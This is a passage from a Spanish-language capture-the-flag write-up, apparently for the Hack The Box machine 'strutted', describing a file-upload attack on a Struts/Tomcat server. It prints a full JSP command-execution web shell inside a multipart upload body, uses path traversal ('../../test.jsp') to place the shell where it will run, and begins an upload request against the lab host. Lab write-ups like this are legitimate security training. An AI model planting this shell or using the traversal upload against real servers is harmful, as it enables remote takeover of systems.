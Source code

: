 ```http
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>

------WebKitFormBoundaryJHdpaH6gDs4Syohg
Content-Disposition: form-data; name="top.UploadFileName"

../test2.jsp
------WebKitFormBoundaryJHdpaH6gDs4Syohg--


```


![[Pasted image 20250219193832.png]]
Se sube bien pero el navegador lo interpreta como texto plano esto tambien es por como tomcat esta configurado lo que se explica en POSTEXPLOITATION ; pruebo de nuevo pero llendo dos carpetas para atras `../../test.jsp`

![[Pasted image 20250219194256.png]]

Bueno ahora funciona; vamos a probar el exploit en el servidor strutted;

El request queda asi:
```http
POST /upload.action;jsessionid=743AE59EABCED3FCE5A904038A938DF3 HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------4067362124160935221168699314
Content-Length: 52216
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/
```